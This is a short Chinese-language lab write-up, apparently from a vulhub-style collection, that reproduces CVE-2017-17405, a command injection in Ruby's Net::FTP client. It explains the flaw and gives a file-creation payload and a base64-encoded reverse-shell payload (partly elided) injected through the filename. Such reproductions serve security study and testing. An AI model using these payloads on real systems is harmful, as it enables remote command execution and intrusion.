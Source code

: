 （CVE-2017-17405）Net::FTP 模块命令注入漏洞
===========================================

一、漏洞简介
------------

Ruby Net::FTP
模块是一个FTP客户端，在上传和下载文件的过程中，打开本地文件时使用了`open`函数。而在ruby中，`open`函数是借用系统命令来打开文件，且没用过滤shell字符，导致在用户控制文件名的情况下，将可以注入任意命令。

二、漏洞影响
------------

Ruby \< 2.4.3

三、复现过程
------------

因为这是一个FTP客户端的漏洞，所以我们需要先运行一个可以被访问到的服务端。比如使用python：

    # 安装pyftpdlib
    pip install pyftpdlib

    # 在当前目录下启动一个ftp服务器，默认监听在`0.0.0.0:2121`端口
    python3 -m pyftpdlib -p 2121 -i 0.0.0.0

然后即可开始利用漏洞。注入命令`|touch${IFS}success.txt`（空格用`${IFS}`代替，原因不表），发送如下数据包即可（其中uri指定的ftp服务器就是我用python运行的一个简单的ftp
server，其中无需放置任何文件）：

![1.png](./.resource/(CVE-2017-17405)Net::FTP模块命令注入漏洞/media/rId24.png)

然后进入docker容器内，可见success.txt已被创建：

![2.png](./.resource/(CVE-2017-17405)Net::FTP模块命令注入漏洞/media/rId25.png)

执行反弹shell的命令`|bash${IFS}-c${IFS}'{echo,YmFzaCAtaSA...}|{base64,-d}|{bash,-i}'`，成功反弹：

![3.png](./.resource/(CVE-2017-17405)Net::FTP模块命令注入漏洞/media/rId26.png)

参考链接
--------

> https://vulhub.org/\#/environments/ruby/CVE-2017-17405/
